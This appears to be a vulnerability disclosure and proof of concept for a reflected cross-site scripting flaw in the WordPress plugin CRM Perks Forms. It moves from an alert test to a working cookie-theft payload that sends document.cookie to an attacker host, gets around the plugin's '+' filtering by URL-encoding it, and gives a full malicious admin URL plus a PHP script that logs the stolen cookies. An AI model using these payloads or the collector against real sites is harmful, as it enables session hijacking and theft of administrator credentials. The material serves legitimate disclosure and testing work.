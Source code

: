 0x01 Vulnerability description

    There is an XSS(Cross Site Scripting) vulerability in the wordpress plugin called CRM Perks Forms.
    An attacker inserts malicious code into a web-page URL.
    The code is triggered when user clicks the malicious links and move his mouse over the list area on the left of the web-page. 

0x02 Recurrence of the vulnerability

    This is tne main page of the plugin.
    First, click Add-New-Form to create a new form.
![1.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-1.png)

    Choose one template.
![2.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-2.png)

    This is the affected page with XSS vulnerability.
    You can see that my new form id is 66, yours may be 1, it doesn't matter, because I have created it many times.
    So the affected web-page URL is: http://127.0.0.1/wordpress/wp-admin/admin.php?page=cfx-form&form_id=66
    Statement: This URL can be used regardless of whether you have created a form, and the id can be any number.
![3.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-3.png)

    Payload: "onmouseover=alert(1)//
    Enter the payload in the URL bar and move your mouse over the list area on the left of the web-page, an alert pop-up will appear.
    So, there is an XSS vulnerability.
![4.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-4.png)

「EXP」

Purpose: By clicking on the malicious URL link constructed by the attacker and moving mouse, the user will leak his own cookie.

    Change the payload to: "onmouseover=alert(document.cookie)//
    We can see the user cookie information in the pop-up window.
![5.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-5.png)

    Build a listening server locally to receive the cookie information of the target user.
    Write a PHP script 'getcookie.php' on the server to remotely receive cookie information.
    The function of this script is to write the received cookie into the 'cookie.txt'.
    At this point the payload is: "onmouseover=location.href="http://exploit.com/get.php?cookie="+document.cookie//
    We extend the payload to the URL to make a request, find that there is no user's cookie in the 'cookie.txt' file of the remote server.
    Check the source code of the web-page and find that the '+' in the span tag is filtered.
![8.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-8.png)

    So try to convert '+' to URL encoding '%2B'.
    Construct a new payload: "onmouseover=location.href="http://exploit.com/get.php?cookie="%2Bdocument.cookie//
    Enter payload in the URL bar.
![12.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/2023-04-22_23-12.png)

    Check the source code of the web-page again, '+' is not filtered out.
![9.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-9.png)

    Move my mouse over the list area, the web-page has been redirected.
![10.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-10.png)

    At this point, the user cookie has been sent to the local listening server.
![11.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-11.png)

    Merge the payload and URL to construct a malicious URL link:
    http://127.0.0.1/wordpress/wp-admin/admin.php?page=cfx-form&form_id=66?"onmouseover=location.href="http://exploit.com/get.php?cookie="%2Bdocument.cookie//
    The user causes the leakage of his own cookie by clicking on the malicious link and moving mouse.
    
The simple 'getcookie.php' script:

    <?php
    $cookie = $_GET['cookie'];
    $ip = getenv ('REMOTE_ADDR');
    $time = date('Y-m-d g:i:s');
    $fp = fopen("cookie.txt","a");
    fwrite($fp,"IP: ".$ip." Date: ".$time."\nCookie:".$cookie."\n");
    fclose($fp);
    ?> 



   
    
